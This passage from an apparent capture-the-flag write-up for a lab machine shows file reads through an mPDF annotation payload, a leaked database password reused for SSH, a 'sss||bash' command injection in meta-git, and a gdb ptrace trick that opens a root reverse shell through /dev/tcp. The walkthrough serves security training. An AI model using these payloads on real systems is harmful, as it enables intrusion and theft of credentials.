developer:x:1001:1002:,,,:/home/developer:/bin/bash
usbmux:x:114:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
```

Looks like we have two users: `gbyolo` and `developer`.

Let's try to get their private SSH keys since that is the only other port open. We modify the payload accordingly:

```xml
<annotation file="/home/developer/.ssh/id_rsa" content="/home/developer/.ssh/id_rsa"  icon="Graph" title="Attached File: /home/developer/.ssh/id_rsa" pos-x="195" />
```

Encode with [CyberChef](https://gchq.github.io/CyberChef/#recipe=URL_Encode(false)URL_Encode(false)To_Base64('A-Za-z0-9%2B/%3D')&input=PGFubm90YXRpb24gZmlsZT0iL2hvbWUvZGV2ZWxvcGVyLy5zc2gvaWRfcnNhIiBjb250ZW50PSIvaG9tZS9kZXZlbG9wZXIvLnNzaC9pZF9yc2EiICBpY29uPSJHcmFwaCIgdGl0bGU9IkF0dGFjaGVkIEZpbGU6IC9ob21lL2RldmVsb3Blci8uc3NoL2lkX3JzYSIgcG9zLXg9IjE5NSIgLz4):

```
JTI1M0Nhbm5vdGF0aW9uJTI1MjBmaWxlPSUyNTIyL2hvbWUvZGV2ZWxvcGVyLy5zc2gvaWRfcnNhJTI1MjIlMjUyMGNvbnRlbnQ9JTI1MjIvaG9tZS9kZXZlbG9wZXIvLnNzaC9pZF9yc2ElMjUyMiUyNTIwJTI1MjBpY29uPSUyNTIyR3JhcGglMjUyMiUyNTIwdGl0bGU9JTI1MjJBdHRhY2hlZCUyNTIwRmlsZTolMjUyMC9ob21lL2RldmVsb3Blci8uc3NoL2lkX3JzYSUyNTIyJTI1MjBwb3MteD0lMjUyMjE5NSUyNTIyJTI1MjAvJTI1M0U=
```

However, sending thise on in burp produces an error: `mPDF Error: Cannot access file attachment - /home/developer/.ssh/id_rsa`. So, that file doesn't exist. `/home/gbyolo/.ssh/id_rsa` also doesn't exist.

Looking back at the application, we see that we can view users' schedules:


Clicking one produces a request in burp with `faculty_id=2`. I messed around with different values and found that sending a non-integer like `faculty_id=not_an_int` produces an error message:



As you can see, we are given the absolute path of a file that is part of the website: `/var/www/scheduling/admin/admin_class.php`. Let's read that with the LFI exploit we discovered with mpdf:

```
<annotation file="/var/www/scheduling/admin/admin_class.php" content="/var/www/scheduling/admin/admin_class.php"  icon="Graph" title="Attached File: /var/www/scheduling/admin/admin_class.php" pos-x="195" />
```

Encode with [CyberChef](https://gchq.github.io/CyberChef/#recipe=URL_Encode(false)URL_Encode(false)To_Base64('A-Za-z0-9%2B/%3D')&input=PGFubm90YXRpb24gZmlsZT0iL3Zhci93d3cvc2NoZWR1bGluZy9hZG1pbi9hZG1pbl9jbGFzcy5waHAiIGNvbnRlbnQ9Ii92YXIvd3d3L3NjaGVkdWxpbmcvYWRtaW4vYWRtaW5fY2xhc3MucGhwIiAgaWNvbj0iR3JhcGgiIHRpdGxlPSJBdHRhY2hlZCBGaWxlOiAvdmFyL3d3dy9zY2hlZHVsaW5nL2FkbWluL2FkbWluX2NsYXNzLnBocCIgcG9zLXg9IjE5NSIgLz4):

```
JTI1M0Nhbm5vdGF0aW9uJTI1MjBmaWxlPSUyNTIyL3Zhci93d3cvc2NoZWR1bGluZy9hZG1pbi9hZG1pbl9jbGFzcy5waHAlMjUyMiUyNTIwY29udGVudD0lMjUyMi92YXIvd3d3L3NjaGVkdWxpbmcvYWRtaW4vYWRtaW5fY2xhc3MucGhwJTI1MjIlMjUyMCUyNTIwaWNvbj0lMjUyMkdyYXBoJTI1MjIlMjUyMHRpdGxlPSUyNTIyQXR0YWNoZWQlMjUyMEZpbGU6JTI1MjAvdmFyL3d3dy9zY2hlZHVsaW5nL2FkbWluL2FkbWluX2NsYXNzLnBocCUyNTIyJTI1MjBwb3MteD0lMjUyMjE5NSUyNTIyJTI1MjAvJTI1M0U=
```

Using the same method as before, this gives us [admin_class.php](admin_class.php). Right at the top there is a mention of a `db_connect.php` file. Let's get that via LFI too:

```php
$conn= new mysqli('localhost','sched','Co.met06aci.dly53ro.per','scheduling_db')or die("Could not connect to mysql".mysqli_error($con));
```

This gives us the password `Co.met06aci.dly53ro.per`. Attempting to login via SSH as `developer` with this password doesn't work, but trying it with the `gbyolo` user does work!

```
gbyolo@faculty:~$ ls -la
total 44
drwxr-x--- 7 gbyolo gbyolo 4096 Jul 28 01:23 .
drwxr-xr-x 4 root   root   4096 Jun 23 18:50 ..
lrwxrwxrwx 1 gbyolo gbyolo    9 Oct 23  2020 .bash_history -> /dev/null
-rw-r--r-- 1 gbyolo gbyolo  220 Feb 25  2020 .bash_logout
-rw-r--r-- 1 gbyolo gbyolo 3771 Feb 25  2020 .bashrc
drwx------ 2 gbyolo gbyolo 4096 Jun 23 18:50 .cache
drwx------ 3 gbyolo gbyolo 4096 Jun 23 18:50 .config
drwxrwxr-x 3 gbyolo gbyolo 4096 Jun 23 18:50 .local
-rw------- 1 gbyolo gbyolo  248 Jul 28 01:23 .mysql_history
drwxrwxr-x 3 gbyolo gbyolo 4096 Jul 27 21:36 .npm
-rw-r--r-- 1 gbyolo gbyolo  807 Feb 25  2020 .profile
drwx------ 2 gbyolo gbyolo 4096 Jun 23 18:50 .ssh
```

No `user.txt` so it looks like we to pivot to the `developer` user.

## Lateral Movement

We switch to [pwncat](https://github.com/calebstewart/pwncat) instead of ssh so we can easily upload [LinPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS) by running `upload linpeas.sh` in the local shell. Run LinPEAS with `./linpeas.sh -a 2>&1 | tee linpeas_report_gbyolo.txt`. Download the report with `download linpeas_report_gbyolo.txt` in the local terminal. You can open [linpeas_report_gbyolo.txt](./linpeas_report_gbyolo.txt) with `less -R linpeas_report_gbyolo.txt`.

This doesn't find too many interesting things. But, since we have the password for this user, we can check `sudo -l`:

```
Matching Defaults entries for gbyolo on faculty:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User gbyolo may run the following commands on faculty:
    (developer) /usr/local/bin/meta-git
```

We can run `/usr/local/bin/meta-git` as the `developer` user.

Running `ls -la /usr/local/bin/meta-git` shows that `/usr/local/bin/meta-git` is a sumbolic link to `../lib/node_modules/meta-git/bin/meta-git`, which is an NPM package so we can [find it up on npmjs.com](https://www.npmjs.com/package/meta-git).

After manually trying to find an exploit for a while, I instaed simply Google "meta-git exploit" and immediately find what I was looking for: [HackerOne report](https://hackerone.com/reports/728040).

We can use the following syntax to get command execution: `/usr/local/bin/meta-git clone 'sss||bash'`. Make sure to execute it with `sudo -u developer` so it runs as the `developer` user: `sudo -u developer /usr/local/bin/meta-git clone 'sss||bash'`.

We get the following output:

```
meta git cloning into 'sss||bash' at sss||bash

sss||bash:
sss||bash: command 'git clone sss||bash sss||bash' exited with error: Error: spawnSync /bin/sh EACCES
(node:255220) UnhandledPromiseRejectionWarning: Error: EACCES: permission denied, chdir '/home/gbyolo/sss||bash'
    at process.chdir (internal/process/main_thread_only.js:31:12)
    at exec (/usr/local/lib/node_modules/meta-git/bin/meta-git-clone:27:11)
    at execPromise.then.catch.errorMessage (/usr/local/lib/node_modules/meta-git/node_modules/meta-exec/index.js:104:22)
    at process._tickCallback (internal/process/next_tick.js:68:7)
    at Function.Module.runMain (internal/modules/cjs/loader.js:834:11)
    at startup (internal/bootstrap/node.js:283:19)
    at bootstrapNodeJSCore (internal/bootstrap/node.js:623:3)
(node:255220) UnhandledPromiseRejectionWarning: Unhandled promise rejection. This error originated either by throwing inside of an async function without a catch block, or by rejecting a promise which was not handled with .catch(). (rejection id: 2)
(node:255220) [DEP0018] DeprecationWarning: Unhandled promise rejections are deprecated. In the future, promise rejections that are not handled will terminate the Node.js process with a non-zero exit code.
```

The issue is that we are still in `/home/gbyolo`, which `developer` cannot access so we `cd /tmp` and then run it and it works!

We can now `cat ~user.txt` to get the `user.txt` flag and run `cat ~/.ssh/id_rsa` to get the SSh private key and login direrctly as developer.

## Privilege Escalation

We can run LinPEAS again with `./linpeas.sh -a 2>&1 | tee linpeas_report_developer.txt` to see if there is anything new: [linpeas_report_developer.txt](linpeas_report_developer.txt)

We notice this file in the home directory: `/home/developer/sendmail.sh`:

```bash
#!/bin/bash
[ -s /var/mail/gbyolo ] || echo "Hi gbyolo, you can now manage git repositories belonging to the faculty group. Please check and if you have troubles just let me know!\ndeveloper@faculty.htb" | /usr/bin/mail -s "Faculty group" gbyolo@faculty.htb
```

We also notice this interesting output from LinPEAS:

```
╔══════════╣ Readable files belonging to root and readable by me but not world readable
-rwxr-x--- 1 root debug 8440200 Dec  8  2021 /usr/bin/gdb
-rw-r----- 1 root developer 33 Jul 27 13:06 /home/developer/user.txt
```

And this:

```
Files with capabilities (limited to 50):
/usr/lib/x86_64-linux-gnu/gstreamer1.0/gstreamer-1.0/gst-ptp-helper = cap_net_bind_service,cap_net_admin+ep
/usr/bin/gdb = cap_sys_ptrace+ep
/usr/bin/ping = cap_net_raw+ep
/usr/bin/traceroute6.iputils = cap_net_raw+ep
/usr/bin/mtr-packet = cap_net_raw+ep
```

Basically, since we are in the `debug` group, we have access to execute `gdb`, a debugging program. On this machine, `gdb` has the `SYS_PTRACE` capability,  which means we can use it to "trace arbitrary processes using ptrace" ([source](https://man7.org/linux/man-pages/man7/capabilities.7.html)). [HackTricks](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/linux-capabilities#cap_sys_ptrace) has some additional information. Under the "Example with environment (Docker breakout) - Gdb Abuse" heading they discuss roughly what we are about to do.

We're going to use `gdb` to debug a process running as `root` and then make that process call the `system` function.

Example payload from HackTricks:

```
gdb -p 1234
(gdb) call (void)system("ls")
(gdb) call (void)system("sleep 5")
(gdb) call (void)system("bash -c 'bash -i >& /dev/tcp/192.168.115.135/5656 0>&1'")
```

Let's look for a process with `ps aux | grep ^root`. Eventually we find `python3` running as `root`:

```
$ ps aux | grep ^root.*python3
root         723  0.0  0.9  26896 18124 ?        Ss   Jul27   0:00 /usr/bin/python3 /usr/bin/networkd-dispatcher --run-startup-triggers
```

So, we start a listener with `pwncat-cs -lp 58619` run the following commands:

```
gdb -p 723
call (void)system("bash -c 'bash -i >& /dev/tcp/10.10.14.98/58619 0>&1'")
```

Those commands output this:

```
For help, type "help".
Type "apropos word" to search for commands related to "word".
Attaching to process 723
Reading symbols from /usr/bin/python3.8...
(No debugging symbols found in /usr/bin/python3.8)
Reading symbols from /lib/x86_64-linux-gnu/libc.so.6...
Reading symbols from /usr/lib/debug/.build-id/18/78e6b475720c7c51969e69ab2d276fae6d1dee.debug...
Reading symbols from /lib/x86_64-linux-gnu/libpthread.so.0...
Reading symbols from /usr/lib/debug/.build-id/7b/4536f41cdaa5888408e82d0836e33dcf436466.debug...
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
Reading symbols from /lib/x86_64-linux-gnu/libdl.so.2...
Reading symbols from /usr/lib/debug/.build-id/c0/f40155b3f8bf8c494fa800f9ab197ebe20ed6e.debug...
Reading symbols from /lib/x86_64-linux-gnu/libutil.so.1...
Reading symbols from /usr/lib/debug/.build-id/4f/3ee75c38f09d6346de1e8eca0f8d8a41071d9f.debug...
Reading symbols from /lib/x86_64-linux-gnu/libm.so.6...
Reading symbols from /usr/lib/debug/.build-id/fe/91b4090ea04c1559ff71dd9290062776618891.debug...
Reading symbols from /lib/x86_64-linux-gnu/libexpat.so.1...
(No debugging symbols found in /lib/x86_64-linux-gnu/libexpat.so.1)
Reading symbols from /lib/x86_64-linux-gnu/libz.so.1...
(No debugging symbols found in /lib/x86_64-linux-gnu/libz.so.1)
Reading symbols from /lib64/ld-linux-x86-64.so.2...
Reading symbols from /usr/lib/debug/.build-id/45/87364908de169dec62ffa538170118c1c3a078.debug...
Reading symbols from /lib/x86_64-linux-gnu/libnss_files.so.2...
Reading symbols from /usr/lib/debug/.build-id/45/da81f0ac3660e3c3cb947c6244151d879ed9e8.debug...
Reading symbols from /usr/lib/python3.8/lib-dynload/_json.cpython-38-x86_64-linux-gnu.so...
(No debugging symbols found in /usr/lib/python3.8/lib-dynload/_json.cpython-38-x86_64-linux-gnu.so)
Reading symbols from /usr/lib/python3/dist-packages/gi/_gi.cpython-38-x86_64-linux-gnu.so...
(No debugging symbols found in /usr/lib/python3/dist-packages/gi/_gi.cpython-38-x86_64-linux-gnu.so)
Reading symbols from /lib/x86_64-linux-gnu/libglib-2.0.so.0...
(No debugging symbols found in /lib/x86_64-linux-gnu/libglib-2.0.so.0)
Reading symbols from /lib/x86_64-linux-gnu/libgobject-2.0.so.0...
--Type <RET> for more, q to quit, c to continue without paging--q
Quit
(gdb) call (void)system("bash -c 'bash -i >& /dev/tcp/10.10.14.98/58619 0>&1'")
[Detaching after vfork from child process 476449]
```

This should spawn a reverse shell as the `root` user. Run `cat /root/root.txt` to get the `root.txt` flag.
